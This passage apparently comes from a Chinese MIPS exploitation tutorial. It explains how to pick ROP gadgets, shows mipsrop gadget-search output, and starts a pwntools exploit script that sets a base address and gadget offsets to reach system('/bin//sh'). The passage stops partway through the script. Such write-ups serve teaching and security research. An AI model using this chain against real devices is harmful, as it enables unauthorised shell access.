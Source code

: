 选择 0x159cc 这个 gadget ，双击进入查看指令

[![](https://p1.ssl.qhimg.com/t010f11cebde2315de0.png)](https://p1.ssl.qhimg.com/t010f11cebde2315de0.png)

之所以选择这个 gadget 的原因是因为这里我们可以通过溢出，直接在栈上操纵 a0 寄存器
- 或者这里也可以使用 mipsrop.system() 来查找 rop 链，这类的 gadget 指令的作用主要是将栈上可控的数据直接传递给 a0 寄存器，如下：


```
Python&gt;mipsrop.system()

----------------------------------------------------------------------------------------------------------------

| Address | Action | Control Jump |

----------------------------------------------------------------------------------------------------------------

| 0x00042F60 | addiu $a0,$sp,0x38+var_20 | jalr $a0 |

| 0x000567A0 | addiu $a0,$sp,0xA0+var_88 | jalr $s4 |

| 0x00027440 | addiu $a0,$sp,0x30+var_18 | jr 0x30+var_4($sp) |

| 0x000330F8 | addiu $a0,$sp,0x78+var_60 | jr 0x78+var_4($sp) |

| 0x00036360 | addiu $a0,$sp,0x48+var_30 | jr 0x48+var_4($sp) |

| 0x0003F8FC | addiu $a0,$sp,0x50+var_38 | jr 0x50+var_4($sp) |

| 0x00042F6C | addiu $a0,$sp,0x38+var_20 | jr 0x38+var_4($sp) |

----------------------------------------------------------------
```

之后通过 jalr $s0，这里的 s0 的值为原来 0x531ff+1 后复原的 system 地址的值，也就跳转到了 system(“/bin//sh”) 函数。

### <a name="exp"></a>**exp**



```
#!/usr/bin/python

from pwn import *



context.endian="little"

context.arch="mips"



base_addr = 0x76738000



system_addr_1 = 0x53200-1

rop1 = 0x000158C8

rop2 = 0x159CC


```